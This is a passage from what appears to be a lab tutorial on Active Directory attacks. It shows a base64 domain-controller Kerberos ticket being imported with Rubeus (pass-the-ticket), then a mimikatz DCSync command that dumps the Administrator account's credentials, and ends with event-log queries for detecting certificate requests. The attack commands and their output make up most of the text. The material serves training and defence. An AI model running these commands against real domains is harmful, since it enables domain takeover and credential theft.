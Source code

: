 ```PowerShell
ZqXhd7HcSq5SN4LOmEP1tScir+shxQC+hbs3oYx/rHfj8GDDEZ8UwY6I4JF4pQsApKOB3zCB3KADAgEAooHUBIHRfYHOMIHLoIHI    MIHFMIHCoCswKaADAgESoSIEIDs9gBc+2myj4I7mPmXH542vha3A2zfkHbm/RxnK4oMSoQ0bC0VBR0xFLkxPQ0FMohEwD6ADAgEB
oQgwBhsEREMxJKMHAwUAYKEAAKURGA8yMDIyMTIxODIyMzAyMVqmERgPMjAyMjEyMTkwODMwMjFapxEYDzIwMjIxMjI0MDgyODM5
WqgNGwtFQUdMRS5MT0NBTKkgMB6gAwIBAqEXMBUbBmtyYnRndBsLRUFHTEUuTE9DQUw=

[*] Ticket cache size: 5
```

We can use this TGT for authentication within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack (among others).

One way of using the abovementioned TGT is through Rubeus, as follows.
```PowerShell
PS C:\Users\bob\Downloads> .\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: Import Ticket
[+] Ticket successfully imported!
PS C:\Users\bob\Downloads> klist

Current LogonId is 0:0x101394

Cached Tickets: (1)

#0>     Client: DC1$ @ EAGLE.LOCAL
        Server: krbtgt/EAGLE.LOCAL @ EAGLE.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/21/2023 8:54:04 (local)
        End Time:   4/21/2023 18:54:04 (local)
        Renew Time: 4/28/2023 8:54:04 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

Then, a DCSync attack can be executed through mimikatz, essentially by replicating what we did in the DCSync section.
```PowerShell
PS C:\Users\bob\Downloads\mimikatz_trunk\x64> .\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::dcsync /domain:eagle.local /user:Administrator
[DC] 'eagle.local' will be the domain
[DC] 'DC1.eagle.local' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
```

[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *